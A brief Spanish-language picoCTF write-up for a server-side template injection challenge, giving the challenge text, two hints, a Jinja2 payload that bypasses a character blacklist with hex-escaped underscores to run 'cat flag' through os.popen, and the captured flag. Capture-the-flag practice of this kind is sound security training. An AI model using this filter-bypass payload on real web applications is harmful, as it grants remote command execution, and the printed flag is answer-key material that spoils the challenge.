 ## Descripción

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:60050/)!
## Pistas

1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?

## Solución

`En la box introducimos el siguiente script`

`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}`

`picoCTF{sst1_f1lt3r_byp4ss_5b0b2f79}`


## Notas Adicionales



## Referencias
- 

